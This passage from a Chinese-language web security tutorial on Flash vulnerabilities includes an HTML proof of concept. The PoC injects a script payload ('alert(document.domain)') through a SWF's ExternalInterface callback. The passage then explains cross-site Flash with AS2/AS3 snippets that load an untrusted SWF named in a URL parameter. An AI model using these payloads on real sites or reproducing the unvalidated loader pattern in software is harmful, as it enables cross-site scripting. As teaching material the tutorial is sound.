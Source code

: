 x.html

```
<html>
<head></head>
<body>
<object id="lso" type="application/x-shockwave-Flash" data="http://192.168.4.70/addCallback_lso.swf">
<param name="movie" value = "http://192.168.4.70/addCallback_lso.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
<script>
function set(){
    document["lso"].setlso('aa\\";alert(document.domain);//aa');
}
function get(){
    document["lso"].getlso();
}

setTimeout("get()",5000)
setTimeout("get()",7000)
</script>
</body>
</html>

```

运行结果：

![enter image description here](img/img12_u9_png.jpg)

**跨站 Flash**

跨站 Flash 即 XSF，通过 AS 加载第三方的 Flash 文件，如果这个第三方 Flash 可以被控制，就可以实现 XSF。 在 AS2 中使用 loadMove 函数等加载第三方 Flash。

```
_root.loadMovie(swf)；

```

在 AS3 中使用 Loader 类进行外部数据处理：

```
var param:Object = root.loaderInfo.parameters;
var swf:String = param[“swf”];
var myLoader:Loader = new Loader();
var url:URLRequest = new URLRequest(swf);
myLoader.load(url);
addChild(myLoader);

```

